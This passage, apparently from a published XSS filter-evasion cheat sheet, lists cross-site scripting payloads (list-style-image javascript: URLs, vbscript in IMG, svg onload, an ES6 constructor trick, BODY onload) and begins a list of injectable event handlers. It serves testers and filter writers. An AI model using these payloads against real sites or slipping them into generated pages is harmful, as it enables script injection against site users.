 ### List-style-image

This esoteric attack focuses on embedding images for bulleted lists. It will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful XSS vector:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

### VBscript in an Image

```html
<IMG SRC='vbscript:msgbox("XSS")'>
```

### SVG Object Tag

```js
<svg/onload=alert('XSS')>
```

### ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

### BODY Tag

This attack doesn't require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack. Dan Crowley has noted that you can put a space before the equals sign (`onload=` != `onload =`):

```html
<BODY ONLOAD=alert('XSS')>
```

#### Attacks Using Event Handlers

The attack with the BODY tag can be modified for use in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice [list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

- `onAbort()` (when user aborts the loading of an image)
- `onActivate()` (when object is set as the active element)
- `onAfterPrint()` (activates after user prints or previews print job)
- `onAfterUpdate()` (activates on data object after updating data in the source object)
- `onBeforeActivate()` (fires before the object is set as the active element)
- `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
- `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
- `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
- `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
- `onBeforePaste()` (user needs to be tricked into pasting or be forced into it using the `execCommand("Paste")` function)
- `onBeforePrint()` (user would need to be tricked into printing or attacker could use the `print()` or `execCommand("Print")` function).
- `onBeforeUnload()` (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
- `onBeforeUpdate()` (activates on data object before updating data in the source object)
- `onBegin()` (the onbegin event fires immediately when the element's timeline begins)
- `onBlur()` (in the case where another popup is loaded and window looses focus)
- `onBounce()` (fires when the behavior property of the marquee object is set to "alternate" and the contents of the marquee reach one side of the window)